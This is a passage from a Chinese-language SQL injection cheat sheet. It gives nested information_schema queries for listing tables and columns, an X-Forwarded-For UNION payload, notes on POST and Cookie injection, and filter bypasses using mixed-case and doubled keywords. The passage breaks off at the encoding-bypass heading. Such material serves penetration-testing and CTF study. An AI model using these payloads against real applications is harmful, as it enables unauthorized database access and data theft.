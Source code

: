 **嵌套查询**

```mysql
# 查表名
select table_name from information_schema.tables where table_schema='[database]';
# 由于 ' 被过滤，因此将查询语句嵌套与另一查询语句中来绕过过滤
select table_name from information_schema.tables where table_schema=(select database());
# 查字段相同
select column_name from information_schema.columns where table_schema=(select database()) and table_name=(select table_name from information_schema.tables where table_schema=(select database()) limit 0,1) limit 0,1
# 若需要查询其他字段或者表名则更改limit即可
```

### Post注入&Cookie注入

原理同Get

Cookie可以使用burp抓包注入cookie

### XFF注入

X-Forward-For

原理同普通sql注入

```mysql
# payload在XFF中
X-Forwarded-for:127.0.0.1' union select 1,database(),3#
```



### Sql注入绕过

#### 大小写绕过

**注入被拦截，有关键词被过滤，尝试将某个字母改成大写**

```
select database() ---> sElect daTaBase()
```

#### 双写绕过

**注入报错，关键词被过滤**

**查看报错信息来确定哪里需要双写**

```mysql
# payload --> Error
id=1 and 1=1 ---> id=1 1=1
# and被过滤，使用双写
# payload ---> sql
id=1 anandd 1=1 ---> id=1 and 1=1
```

#### 编码绕过
